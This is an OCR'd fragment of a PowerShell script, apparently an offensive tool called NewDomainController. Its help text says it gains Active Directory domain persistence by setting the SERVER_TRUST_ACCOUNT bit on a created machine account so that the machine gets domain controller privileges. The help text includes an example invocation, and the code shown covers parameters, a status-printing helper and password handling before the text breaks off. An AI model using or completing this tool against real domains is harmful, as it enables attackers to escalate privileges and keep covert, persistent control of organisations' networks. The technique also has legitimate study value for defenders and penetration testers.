 ```powershell
    controller. When a machine account's userAccountControl attribute has the SERVER_TRUST_ACCOUNT bit set, 
    Active Directory must set the account's primaryGroupId attribute to the RID of the domain controller group. 
    So just change userAccountControl to grant domain controller privileges to normal domain member machines.
.LINK
    https://whoamianony.top/domain-persistence-machine-accounts/
.PARAMETER Domain
    Specifies the domain name, if omitted, the domain name will be obtained automatically.
.PARAMETER DomainController
    Specifies the FQDN of the domain controller.
.PARAMETER MachineAccount
    Specifies the name of the machine account to be created.
.PARAMETER Password
    Specifies the password of the machine account to be created.
.OUTPUTS
    Output will be shown in the console
.NOTES
    Version:        0.1
    Author:         WHOAMI
    Blog:           https://whoamianony.top/
    Date:           01/18/2022
.EXAMPLE
    NewDomainController -MachineAccount "PENTEST" -Password "Passw0rd" -Domain "pentest.com" -DomainController "DC01.pentest.com"
#>

    param (
        [Parameter(Mandatory = $false)]
        [ValidateNotNullOrEmpty()]
        [string]$Domain,

        [Parameter(Mandatory = $false)]
        [ValidateNotNullOrEmpty()]
        [string]$DomainController,

        [Parameter(Mandatory = $false)]
        [ValidateNotNullOrEmpty()]
        [string]$MachineAccount,

        [Parameter(Mandatory = $false)]
        [ValidateNotNullOrEmpty()]
        [string]$Password
    )


    function FormatStatus([string]$Flag, [string]$Message) {
        If($Flag -eq "1") {
            Write-Host "[+] " -ForegroundColor:Green -NoNewline
            Write-Host $Message
        }ElseIf($Flag -eq "0") {
            Write-Host "[-] " -ForegroundColor:Red -NoNewline
            Write-Host $Message
        }
    }
    

    $null = [System.Reflection.Assembly]::LoadWithPartialName("System.DirectoryServices.Protocols")

    if($Password)
    {
        $SecurePassword = $Password | ConvertTo-SecureString -AsPlainText -Force
```